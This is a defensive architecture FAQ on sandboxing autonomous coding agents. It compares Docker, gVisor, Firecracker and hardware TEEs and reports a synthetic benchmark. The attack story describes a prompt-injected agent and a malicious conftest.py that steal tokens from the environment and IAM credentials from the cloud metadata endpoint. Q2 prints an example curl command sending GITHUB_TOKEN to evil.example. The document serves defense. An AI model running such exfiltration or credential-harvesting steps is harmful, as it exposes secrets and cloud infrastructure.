


# AI Security Architecture Selection & First-Principles Defense FAQ: Autonomous Coding Agent & Tool Execution Sandboxing (Standard Docker vs. gVisor User-Space Kernel vs. Firecracker MicroVM vs. Hardware TEE)

> **Audience**: Practical architecture selection guide for AI Solution Architects, Enterprise CISOs, and Platform Engineering teams (2026-11-08 Round 4 Deep Dive)  
> **Structural Standard**: Strictly modeled on the 6-part architecture selection FAQ benchmark (Executive Summary → Soul-Searching Q&A → Attack Story & First Principles → Mermaid Decision Tree / Path Comparison / Sequence Diagram → Architect Decision Matrix → Quantified Benchmark & Production Checklist)  
> **Interactive Companions**: [4-in-1 Interactive H5 Pentest Playground (22 Vectors)](../../playground/index.en.html) ｜ [7-Card 4:5 Visual Benchmark Report (36 Scenarios)](../../playground/benchmark-cards.en.html) ｜ [中文版 FAQ](./agent-sandbox-docker-gvisor-microvm-selection-faq.md)

---

## 📌 1. Executive Summary

When advising a customer CISO, VP of Engineering, or Cloud Platform Architect on **"When deploying an autonomous Coding Agent (e.g., SWE-Agent, automated PR fixer, or Data Science Code Interpreter), are standard Docker containers sufficient, or when must we enforce gVisor user-space kernels, Firecracker MicroVMs, or Hardware TEEs?"**, lead with these three conclusions:

1. **Use Hardened Containers Only for Fixed Pre-Built Binaries; Never Run LLM-Generated Code or Untrusted PR Tests (`pytest` / `npm install`) in Standard Shared-Kernel Docker**:
   - Giving an Agent a `bash` or `python_exec` tool is architecturally equivalent to **exposing Remote Code Execution (RCE) to every external data source that can influence the prompt** (GitHub Issues, third-party PR diffs, scraped web pages, or uploaded spreadsheets).
   - **Standard Docker (`runc`)** shares the host's Linux kernel across all containers (~300+ exposed system calls) and is only suitable for fixed, internally authored microservices. Whenever an Agent executes dynamically generated code or untrusted repository tests, you must upgrade to **gVisor (`runsc` user-space kernel syscall interception, ideal for standard Kubernetes nodes without `/dev/kvm`)** or **Firecracker MicroVMs (KVM hardware-virtualized dedicated guest kernels, mandatory for multi-tenant SaaS or high-risk code execution)**; for cross-organization confidential data or high-value treasury signing, require **Hardware Confidential Computing TEEs (Intel TDX / AMD SEV-SNP)**.
2. **100x More Likely Than a Kernel Escape Is "In-Sandbox Credential Theft" and "Cloud IMDS SSRF (`169.254.169.254`)"**:
   - An attacker rarely needs a Linux kernel 0-day to compromise an enterprise Coding Agent. If a malicious PR's `conftest.py` or an injected Python snippet simply reads `os.environ` inside the sandbox, or issues an HTTP GET to `http://169.254.169.254/latest/meta-data/iam/security-credentials/` (Cloud Instance Metadata Service), it steals the Agent's `GITHUB_TOKEN` or the host node's IAM Role credentials in under 10 milliseconds.
   - Therefore, every Agent sandbox must pair kernel isolation with **"Zero Secrets Inside Sandbox + Out-of-Sandbox Broker Credential Injection + Hard Cloud IMDS / RFC1918 Network Blackholing."**
3. **Quantified Provenance & Measurement Boundaries (`measured` vs. `synthetic` vs. `anonymized_reported`)**:
   - **Local Deterministic Broker Timings (`measured`, `independently_reproduced=true`)**: Timed on `Windows 11 (ARM64) / Python 3.12.10` via `time.perf_counter_ns()` (`research/evidence.json#local_timing_measurements`), our out-of-sandbox capability broker executes pure in-memory SHA-256 hashing plus workspace path canonicalization, cloud IMDS/RFC1918 SSRF blocking, and policy checks (`n=200`) in **`p50 = 0.0078 ms` (`p95 = 0.0084 ms`)**; full `eng.broker.execute()` with SQLite WAL receipt persistence (`n=50`) takes **`p50 = 8.07 ms` (`p95 = 10.88 ms`)**.
   - **Local Offline Synthetic Red-vs-Blue Fixture Suite (`synthetic`, `independently_reproduced=true`)**: Across our 36 deterministic offline synthetic scenarios (`137` Pytest assertions, including `BRK-17` Workspace Escape / `.github/workflows` Tampering Guard and `BRK-18` Cloud IMDS `169.254.169.254` SSRF Credential Theft Guard), Attack Success Rate (ASR) on this synthetic fixture suite drops from **75.0% to 0.0%** with **100.0% benign task completion (`0.0%` FPR)**.
   - **Third-Party Published References (`anonymized_reported`, `independently_reproduced=false`) & Unmeasured Scope (`not_measured`)**: Published cloud-native startup figures for standard Docker (`~30–80 ms`), gVisor `runsc` (`~50–120 ms`), and E2B/Firecracker MicroVM snapshot restore (`~108–150 ms`) are labeled `anonymized_reported` (`independently_reproduced=false`); live Linux KVM hypervisor 0-day escapes and live commercial LLM refusal rates are `not_measured` in this Windows 11 offline worktree.


---

## 🎯 2. Soul-Searching Customer & Architect Q&A (FAQ-Driven Deep Dive)

### Q1: Our Coding Agent already runs inside a Docker container. Why does our security team insist that "Standard Docker cannot contain Agent code execution risks"? When do we pick gVisor vs. Firecracker MicroVM vs. Hardware TEE?

#### 1. Real-World Attack Story: How a Single `conftest.py` Compromises a Dockerized Coding Agent
Suppose an enterprise deploys an autonomous Coding Agent that clones repositories, runs `pytest` to diagnose bugs, and opens fix PRs. An attacker submits a seemingly harmless typo-fix PR (or embeds an indirect prompt injection inside a GitHub Issue) containing a malicious `conftest.py`:
1. **Step 1 (Stealing In-Sandbox Environment Secrets & Mounted Volumes Without Any Kernel Exploit)**: The moment the Coding Agent runs `pytest` inside its standard Docker container, `conftest.py` executes automatically. It reads `os.environ`, immediately harvesting `GITHUB_TOKEN`, `OPENAI_API_KEY`, and `AWS_SECRET_ACCESS_KEY` that developers passed into the container so the Agent could push code. It also checks mounted volumes, discovering `/var/run/docker.sock` or a parent workspace bind-mount (`../../`), and overwrites sibling repositories.
2. **Step 2 (Cloud IMDS `169.254.169.254` Lateral Movement)**: Even if no static keys were placed in `os.environ`, the script sends an HTTP request to `http://169.254.169.254/latest/meta-data/iam/security-credentials/`. Because standard Docker bridge networking permits link-local traffic by default, the script steals the underlying EC2 / AKS / EKS worker node's IAM Role temporary credentials.
3. **Step 3 (Shared Linux Kernel Attack Surface)**: Standard Docker containers share the exact same host Linux kernel (`vmlinuz`). Even with default Seccomp, untrusted code inside the container can invoke ~300 host system calls directly (`io_uring`, `bpf`, `nf_tables`, etc.). A single kernel privilege-escalation vulnerability breaks out of the container and compromises every co-located workload on the host.

#### 2. First-Principles Breakdown: Why Agent Code Execution = Exposing Your Kernel and Intranet to Untrusted Input
- **Traditional Microservices vs. Coding Agents**: A traditional container runs **static code written and audited by your own engineers**. A Coding Agent or Code Interpreter executes **untrusted, dynamically generated code driven by external prompts, PR diffs, and third-party files**.
- **The Four Physical Isolation Tiers**:
  1. **Standard Docker (`runc` Namespaces + Cgroups)**: Process-level visibility isolation sharing the host kernel. Built for trusted internal binaries, not adversarial code execution.
  2. **gVisor (`runsc` User-Space Application Kernel)**: Inserts **Sentry**, a memory-safe user-space kernel written in Go, between the container process and the host Linux kernel. All 300+ application syscalls are intercepted and emulated in user space by Sentry, which itself invokes only ~50–70 tightly restricted host syscalls. **Requires no hardware nested virtualization** (`runtimeClassName: gvisor` works on standard Kubernetes nodes).
  3. **Firecracker MicroVM / Kata Containers (KVM Hardware Virtualization)**: Uses CPU hardware virtualization (Intel VT-x / AMD-V) to boot a dedicated **Guest Linux Kernel** inside a lightweight MicroVM for every single Agent session. Even if malicious code triggers a kernel panic or Ring-0 exploit inside the guest kernel, it remains trapped inside the disposable MicroVM, which is destroyed immediately after task completion.
  4. **Hardware Confidential Computing TEE (Intel TDX / AMD SEV-SNP)**: Adds CPU hardware memory encryption and cryptographic Remote Attestation to protect high-value treasury signing or proprietary model weights against even a compromised host OS.

---

### Q2: Beyond upgrading Docker to gVisor or Firecracker, why is "Zero Secrets Inside Sandbox + Out-of-Sandbox Capability Broker" the true make-or-break boundary?

#### 1. First Principles: The Strongest Vault Door Is Useless If You Leave the Keys Inside the Cell!
Many engineering teams deploy Firecracker MicroVMs, but then pass long-lived `GITHUB_TOKEN` or cloud credentials directly into the MicroVM's environment variables so the Agent can run `git push` or call internal APIs.
- **The Consequence**: A prompt-injected Agent does not need to escape the MicroVM at all—it simply runs `curl -X POST https://evil.example/exfil -d "$GITHUB_TOKEN"` from inside the MicroVM!
- **The Zero-Secret Sandbox Pattern**:
  1. **Zero Long-Lived Secrets in Sandbox Env or Disk**: Never inject raw API keys, SSH private keys, or cloud credentials into the sandbox environment.
  2. **Out-of-Sandbox Capability Broker & Credential Injection Proxy**: When the sandboxed Agent needs to push a branch or call an external API, it sends a structured request to the **Out-of-Sandbox Capability Broker**. The broker verifies the **5-Tuple Action-Hash + Repository/Branch Allowlist + Lane Taint** outside the sandbox and injects a short-lived, downscoped OBO token at the proxy boundary—so code inside the sandbox never touches the secret.
  3. **Default-Deny Egress & Hard Cloud IMDS / RFC1918 Blackhole**: Block arbitrary internet egress by default and hard-block link-local metadata (`169.254.169.254/32`, `fd00:ec2::254`), loopback (`127.0.0.0/8`), and RFC1918 private subnets (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`) after DNS resolution.

---

### Q3: How do we prevent a Coding Agent from escaping workspace bind-mounts or poisoning CI/CD control-plane files (`.github/workflows/*`, `.git/hooks/*`)?

1. **Workspace Path Canonicalization & Host Socket Prohibition**:
   - Never mount `/var/run/docker.sock`, host `/`, `~/.ssh`, or `~/.aws` into an Agent sandbox.
   - Before executing any file read/write, resolve the canonical path (`realpath`) to block `../../` traversal, double URL-encoding (`%2e%2e%2f`), and symlink race escapes.
2. **Immutable Control-Plane Files Inside the Workspace**:
   - Even inside an authorized repository workspace, `.git/hooks/*`, `.github/workflows/*`, `.mcp.json`, and `CODEOWNERS` must be mounted read-only or gated by mandatory 5-Tuple Action-Hash human approval—preventing a compromised Coding Agent from planting a malicious GitHub Actions workflow that steals production deployment secrets during CI.

---

## 🧭 3. Visual Architecture Diagrams (Decision Tree + Breach vs. Zero-Secret MicroVM Path + Sequence Diagram)

### 3.1 Coding Agent & Tool Execution Sandbox Selection Decision Tree (`flowchart TD`)



### 3.2 Shared-Kernel Docker Compromise Path vs. Zero-Secret Sandbox Defense Path (`flowchart LR`)



### 3.3 End-to-End Sandbox Escape & Cloud IMDS SSRF Interception Sequence (`sequenceDiagram`)

```mermaid
sequenceDiagram
    autonumber
    actor Attacker as Attacker (Malicious PR / Poisoned Test Script)
    participant Sandbox as Ephemeral Sandbox (gVisor / Firecracker · Zero Env Secrets)
    participant Broker as Out-of-Sandbox Capability Broker
    participant IMDS as Cloud IMDS (169.254.169.254) / Host Filesystem
    participant GitHub as Target Repo API (Credentials Injected by Broker)

    Attacker->>Sandbox: Triggers pytest; malicious conftest.py attempts 3 exploit paths
    Note over Sandbox: Attempt 1: Reads os.environ["GITHUB_TOKEN"] → Empty! (Zero Secrets Inside Sandbox)
    
    Sandbox->>Broker: Attempt 2: HTTP GET http://169.254.169.254/latest/meta-data/iam/
    Note over Broker: SSRF & Cloud IMDS Blackhole Gate (measured n=200: p50=0.0078ms)<br/>Matches Link-Local / Cloud Metadata block rule
    Broker-->>Sandbox: 🚫 403 BLOCKED (Cloud IMDS / RFC1918 Egress Forbidden)
    
    Sandbox->>Broker: Attempt 3: Write to ../../host_config.yaml or .github/workflows/release.yml
    Note over Broker: Path Canonicalization & Control-Plane File Protection Gate<br/>Detects parent directory escape (..) & protected CI workflow mutation
    Broker-->>Sandbox: 🚫 403 BLOCKED (Workspace Escape / Protected Control-Plane File)
    Broker->>Broker: Commits immutable SQLite WAL receipt (measured n=50: p50=8.07ms) & resets sandbox
```

---

## 📊 4. Architect Decision Matrix

> **Quantitative Provenance Note**: Third-party container/MicroVM startup latencies below are labeled `anonymized_reported` (`independently_reproduced=false`, cited from public cloud-native benchmarks); local out-of-sandbox capability broker latencies are `measured` (`independently_reproduced=true`, `Windows 11 ARM64 / Python 3.12.10`); 36-scenario ASR figures are `synthetic` (`independently_reproduced=true`, local offline deterministic fixture suite).

| Selection Dimension | Option A: Rootless Docker (`runc` + Seccomp + Rootless) | Option B: gVisor User-Space Kernel (`runsc` Sentry + Zero-Secret Broker) | Option C: Firecracker MicroVM / Kata (`KVM` Guest Kernel + Zero-Secret Broker) | Option D: Hardware Confidential TEE (`Intel TDX` / `AMD SEV-SNP`) |
| :--- | :--- | :--- | :--- | :--- |
| **Target Risk Tier & Scenario** | **L1 Low Risk**: Fixed, internally authored binary tools with strict parameter schemas and zero code generation | **L2 Medium-High Risk**: Internal Coding Agents or Python/SQL analytics running on standard K8s clusters without `/dev/kvm` | **L3 High Risk (Recommended)**: Autonomous SWE-Agents, untrusted external PR testing, multi-tenant SaaS Code Interpreters | **L4 Critical Risk**: Financial treasury calldata decoding/signing, cross-org regulated cleanrooms, proprietary weight protection |
| **Kernel & Hardware Isolation Boundary** | ⚠️ **Shares Host Linux Kernel** (Namespace/Cgroups only; ~300 host syscalls exposed) | ✅ **User-Space Go Kernel Interception** (Sentry emulates syscalls in user space; no direct host syscall pass-through) | ✅ **KVM Hardware Virtualization** (Dedicated Guest Linux kernel per session + minimal VirtIO device model) | 🛡️ **CPU Hardware Memory Encryption + Remote Attestation** (Protects against host root & physical probing) |
| **Startup / Broker Gate Latency** | Container start `~30–80 ms` (`anonymized_reported`) | `runsc` start `~50–120 ms` (`anonymized_reported`); Broker in-memory gate `p50=0.0078 ms` (`measured`) | MicroVM snapshot restore `~108–150 ms` (`anonymized_reported`); Broker SQLite receipt `p50=8.07 ms` (`measured`) | TEE enclave boot `~200–500 ms` (`anonymized_reported`) |
| **Escape & Credential Theft Resistance** | ❌ Vulnerable to shared-kernel 0-days; 100% key theft if secrets reside in `os.environ` | ✅ Blocks direct host kernel exploits; **0.0% ASR** on 36-scenario `synthetic` fixture suite with Zero-Secret Broker | ✅ Hardware-enforced VM boundary + ephemeral destroy; **0.0% ASR** on 36-scenario `synthetic` fixture suite | ✅ Cryptographic code-integrity attestation + encrypted RAM |
| **I/O & Compute Overhead** | 🟢 Native performance | 🟡 User-space syscall interception overhead on heavy small-file I/O | 🟢 Near-native guest kernel compute and compilation speed | 🟡 Minor memory-encryption overhead |
| **Infrastructure Requirement & Ops Cost** | 🟢 Minimal (Any Docker/containerd host) | 🟢 Low (Drop-in K8s `RuntimeClass: gvisor`; **no nested virtualization needed**) | 🟡 Moderate (Requires bare-metal, `/dev/kvm`-enabled cloud VMs, or managed MicroVM runtimes) | 🔴 High (Requires SEV-SNP / TDX cloud SKUs & attestation verifier) |

---

## 🧪 5. Red-vs-Blue Benchmark Key Findings (36 Scenarios · 137 Pytest Assertions)

> **⚠️ Provenance & Measurement Conditions Disclosure**:
> 1. **`measured` (Local Code Execution Timing, `independently_reproduced=true`)**: Timed on `Windows 11 (ARM64) / Python 3.12.10` via `time.perf_counter_ns()` (`research/evidence.json#local_timing_measurements`):
>    - **Pure in-memory SHA-256 `request_hash` + workspace path canonicalization / Cloud IMDS SSRF / policy gate (`n=200`)**: `p50 = 0.0078 ms`, `p95 = 0.0084 ms`, `mean = 0.0084 ms`.
>    - **Full `eng.broker.execute()` including SQLite WAL transaction & immutable audit receipt persistence (`n=50`)**: `p50 = 8.07 ms`, `p95 = 10.88 ms`, `mean = 8.34 ms`.
> 2. **`synthetic` (Local Offline Synthetic Red-vs-Blue Fixture Suite, `independently_reproduced=true`)**: The `75.0% -> 0.0%` ASR figures below come from our **36 deterministic offline synthetic scenarios (`137` Pytest assertions in `tests/test_regressions.py`)**, including Round 4's **`BRK-17` (Coding Agent Workspace Escape `../../` & `.github/workflows` Tampering Guard)** and **`BRK-18` (Cloud IMDS `169.254.169.254` SSRF Credential Theft Guard)**. These reflect the local deterministic fixture suite and do not claim live commercial LLM or live Linux KVM hypervisor 0-day generalization.
> 3. **`anonymized_reported` (`independently_reproduced=false`) & `not_measured`**: Container/MicroVM startup timings (`30–150 ms`) are cited from public literature; live KVM hypervisor escape benchmarks and live commercial LLM refusal rates are `not_measured` in this offline worktree.

| Defense Architecture Configuration | Synthetic Fixture Scenarios (`synthetic`) | Workspace Escape / CI Workflow Tamper Rate (`BRK-17`) | Cloud IMDS `169.254.169.254` Theft Rate (`BRK-18`) | Overall Fixture ASR | Benign Task Completion (FPR) | Per-Hop Broker Gate Latency (`measured`) |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **Baseline A: Standard Container + Static Env Tokens + No Out-of-Sandbox Broker** | 36 | 100.0% (Overwrites parent dirs & `.github/workflows`) | 100.0% (Harvests host IAM Role credentials) | **75.0%** | 100.0% (0.0%) | `0.0 ms` (No broker gate) |
| **Baseline B: Prompt-Only Instruction ("Never run dangerous shell commands")** | 36 | 100.0% (Bypassed via `conftest.py` auto-load or encoding) | 100.0% (Bypassed via decimal IP / HTTP redirect) | **50.0% ~ 75.0%** | 91.2% (8.8% false blocks on valid tests) | External guardrail ref `~48–65 ms` (`anonymized_reported`) |
| **Hardened Lab Architecture: Zero-Secret Sandbox Contract + Out-of-Sandbox Deterministic Broker (Path Canonicalization + IMDS Blackhole + Taint Gate)** | **36 (137 Assertions)** | **0.0%** (`realpath` jail + read-only control-plane files) | **0.0%** (`169.254.169.254` & RFC1918 block + zero env keys) | **0.0%** | **100.0% (0.0%)** | **In-memory `p50=0.0078 ms` (`n=200`) / SQLite WAL receipt `p50=8.07 ms` (`n=50`)** |

---

## 🛠️ 6. Appendix: Production Security Verification Checklist (Architect Security Checklist)

Use these 6 verification gates during architecture review before signing off on any Coding Agent, DevOps Agent, or Data Science Code Interpreter:

- [ ] **1. Kernel Isolation Tier Verification**: Prohibit standard shared-kernel `runc` Docker containers whenever an Agent executes LLM-generated code or untrusted repository tests (`pytest`, `npm test`, `python -c`); enforce `runtimeClassName: gvisor` (`runsc`) on standard Kubernetes clusters or **Firecracker MicroVMs / Kata Containers** for multi-tenant and untrusted workloads, with immediate sandbox destruction after each session.
- [ ] **2. Zero Secrets Inside Sandbox Verification**: Audit sandbox `os.environ` and mounted filesystems to confirm **zero raw `GITHUB_TOKEN`, cloud IAM keys, database passwords, or LLM API keys** exist inside the sandbox; route all authenticated external operations through an out-of-sandbox Capability Broker that injects short-lived credentials only after policy verification.
- [ ] **3. Cloud IMDS (`169.254.169.254`) & RFC1918 Intranet Hard Blackhole**: Block `169.254.169.254/32`, `fd00:ec2::254`, `127.0.0.0/8`, and RFC1918 private ranges (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`) at both the sandbox network namespace and egress proxy after DNS resolution (preventing decimal IP and DNS rebinding bypasses).
- [ ] **4. Workspace Path Canonicalization & Immutable Control-Plane Files**: Never mount `/var/run/docker.sock` or parent host directories; verify canonical `realpath` containment before any file write, and lock `.git/hooks/*`, `.github/workflows/*`, `.mcp.json`, and `CODEOWNERS` as read-only (or require 5-Tuple Action-Hash human approval).
- [ ] **5. Package Installation Slopsquatting & Install-Script Guard**: Route `pip install` / `npm install` through an internal artifact proxy enforcing package-age and allowlist verification (blocking hallucinated package slopsquatting), and disable arbitrary pre/post-install script execution by default.
- [ ] **6. Resource Quotas & eBPF Runtime Kill-Switch**: Enforce strict CPU, memory, PID (`pids.max` against fork bombs), and disk quotas per sandbox, paired with host-level eBPF monitoring (e.g., Cilium Tetragon) to issue immediate kernel-level `SIGKILL` and log an immutable receipt on unexpected namespace or device access.
